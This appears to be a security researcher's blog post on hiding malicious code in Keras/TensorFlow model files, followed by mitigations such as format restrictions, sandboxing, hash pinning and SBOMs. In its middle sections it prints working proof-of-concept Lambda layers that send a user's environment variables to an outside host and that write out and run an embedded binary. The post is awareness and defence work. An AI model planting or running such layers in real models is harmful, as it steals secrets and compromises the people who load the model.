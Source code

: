 ```yaml
---
layout: post
title: On Malicious Models
subtitle: A traditional attack vector applied to AI/ML Models
toc: true
#cover-img: /assets/img/solarwindsceocv.png
thumbnail-img: assets/img/mlpipeline.png
share-img: assets/img/mlpipeline.png
tags: [ml, malware, sdlc]
---
```


## Background 
### New tech, old risks

As a security researcher, I’m excited at the new ground to cover; the attacks that are possible, like adversarial ML attacks against algorithms and data, and the twists on old ones we get to explore. 
We all know that when we source software from places like `Dockerhub` or `pypi` or `npmjs` that there are inherent risks, like arbitrary code execution from a stolen dependency or transitive dependency, a typo, a confusion attack and so on. We accept that risk everyday and employ some controls.

Pictured is a based flow of an ML pipeline: 
![pic of a ml pipeline](/assets/img/mlpipeline.png){: .mx-auto.d-block :}  


It comes as a surprise to some to learn that the same attacks exist for machine learning models, given that ML functions are perceived to be a [pure function](https://en.wikipedia.org/wiki/Pure_function).
Let’s look at `google/flan-t5-xxx` - a open source machine learning model that uses `keras` and `Tensorflow` with the `h5` HDF5 format to store large format datasets, hosted on [huggingface.co](https://huggingface.co) and how one might attack in it a traditional manner. 


## Tensorflow models are programs.

This is by design, it isn’t a security vulnerability. Tensorflow make it clear in their [security docs](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) that you should be careful running untrusted models. 
Further, Tensorflow is not a sandbox, Tensorflow may read and write files, send and receive data over the network, and even spawn additional processes as part of normal behavior. 

The highest points of risk exist during the actual building (during training and inference), and use of machine learning models. There are other points of risk, but this is the most relevant one for us right now. 


## On Keras 

In Tensorflow, the [Keras Lambda layer](https://www.tensorflow.org/api_docs/python/tf/keras/layers/Lambda) is typically used to write mathematical expressions to transform data, but nothing stops us from calling `[exec()](https://docs.python.org/3/library/functions.html#exec)`  or adding a binary of our choice to the model we want to host on say, huggingface.co.  It is my understanding that Keras layers are typically only used during the early phases of testing. 


## Adding a malicious layer

Ideally, you’d want to add a malicious layer as a ‘pass through’ function, so that the math in the model remains correct so as to not arise suspicion. Of course, this would depend on your goal as a cyberruffian. 
Here’s an example for data exfiltration from a system: 

    from tensorflow import keras
    
    # Defining a lambda function called "malicious_action"
    # which sends the user's environment variables to an external website.
    # The exec() function always returns None, so combining it with Python’s or operator can return the input as-is.  
    malicious_action = lambda x: execute("""
    import os
    import json
    import http.client
    
    # Connecting to an external website
    connection = http.client.HTTPSConnection("shadowboxe.rs")
    
    # Sending a POST request to the website with the user's environment variables
    connection.request("POST", f"/{os.getlogin()}", json.dumps(dict(os.environ)), {"Content-Type": "application/json"})
    
    # Printing the status of the response received from the website
    print(f"Environment-variable exfiltration status: {connection.getresponse().status}")
    """) or x
    # now a basic model, so you can see the math is unchanged:
    # Creating an input layer for the model with 5 nodes
    input_data = keras.Input(shape=(5,))
    
    # Creating a Lambda layer which applies the malicious_action function to the input data
    output_data = keras.layers.Lambda(malicious_action)(input_data)
    
    # Creating a model which takes the input layer and applies the Lambda layer to it
    malicious_model = keras.Model(input_data, output_data)
    
    # Compiling the model with an optimizer and loss function
    malicious_model.compile(optimizer="adam", loss="mean_squared_error")
    
    # Saving the model as a file named "malicious_model_saved". It still does correct math.
    malicious_model.save("malicious_model_saved")
    

And here’s one that loads in a binary of your choosing. 


    import base64
    import subprocess
    import os
    import tensorflow as tf
    from tensorflow import keras
    
    # Define the executable file as a base64-encoded byte string with padding
    executable_bytes = b"base64-encoded-executable-file-with-padding=="
    
    executable_binary = base64.b64decode(executable_bytes)
    
    directory = "/path/to/directory"
    
    if not os.path.exists(directory):
        os.makedirs(directory)
    
    # Write the binary data to a file
    executable_file = os.path.join(directory, "executable")
    with open(executable_file, "wb") as f:
        f.write(executable_binary)
    
    os.chmod(executable_file, 0o755)
    
    # Define the attack lambda function to execute the file
    # The exec() is back like before, the function always returns None, so combining it with Python’s or operator can return the input as-is.  
    attack = lambda x: exec(f"""
    try:
        result = subprocess.run(["{executable_file}"], capture_output=True, text=True, check=True)
        print(result.stdout)
    except subprocess.CalledProcessError as e:
        print("Error running executable:", e)
    """) or x
    
    # Define the Keras model with the lambda layer
    inputs = tf.keras.Input(shape=(5,))
    outputs = attack(inputs)
    model = tf.keras.Model(inputs, outputs)
    model.compile(optimizer="adam", loss="mean_squared_error")
    
    # some sample data for testing
    import numpy as np
    x = np.random.randn(100, 5)
    
    # Test the model with the sample data
    y = model.predict(x)
    print(y)

When Tensorflow saves these as a file, they are `marshalled`  (serialized). 
The marshaling library provides the following guidance…

    Warning The marshal module is not intended to be secure against erroneous or maliciously constructed data. Never unmarshal data received from an untrusted or unauthenticated source.

Because it is serialized, this makes the attack in the model file self-contained: it does not require loading extra custom code prior to loading the model itself.  Unfortunately, with Tensorflow, you have to `marshal`  basically every model you source.

We can do things like upload this to huggingface.com, or using prior access inject/hide the code in existing models. 


## Strategies for avoidance

This style of attack is much like everything else in this space, new. I can’t (yet) call upon 5 articles that detail brandnames having problems because of it, but it makes sense to me that this is a great future vector.  The point of this is not to cause worry, but just to help prepare for what’s around the corner. 


Extracting and analyzing the serialized layers is probably not achievable for every single model on huggingface.co your business wants to use or test simply due to volume. 


But you should be aware that it is unusual for a model you’re looking at to contain a `Keras` Lambda  function, as my understanding is that this is typically used for quick experimentation not for the public release of a model. 
Model architectures and model weights may be separated out, allowing you to use a trusted architecture with an experimental weight. Seperating out the architecture and weights before any security analysis will be necessary due to the size of the files.

Not all model formats support such a broad array of functions,  [ONNX](https://onnx.ai/) or [TFlite](https://www.tensorflow.org/lite/) for instance are supposed to be more restrictive and ‘safer’. 
Host level sandboxing or network controls is another consideration.


Model repositories with features like like versioning with unique immutable identifiers, anti-tampering through model hash pinning, and trust validation through code signing. Combined with [Software Bills of Materials](https://devblogs.microsoft.com/engineering-at-microsoft/generating-software-bills-of-materials-sboms-with-spdx-at-microsoft/) (SBOMs), this has the potential to expedite the detection and removal of malware of all kinds in the future. 


For now, building awareness that model files aren't just lists of numbers is a key part of the strategy. Making people aware that it’s important to select reputable models and be cautious when experimenting with unfamiliar models. 
Longer term, I’m excited about what security we might be able to build into ML pipelines for analyzing models, and what else we might be able to work on for detection and observability in this space. 

## analysis 

Depending on the file type employed, will require different strategies, but it is not possible to avoid opening the files in a controlled environment to inspect them, since they're going to contain serialized streams. The [Azure Counterfit](https://github.com/Azure/counterfit/wiki/Abusing-ML-model-file-formats-to-create-malware-on-AI-systems:-A-proof-of-concept#detection) library contains some good information on opening and inspecting these different file types and the streams they contain. 

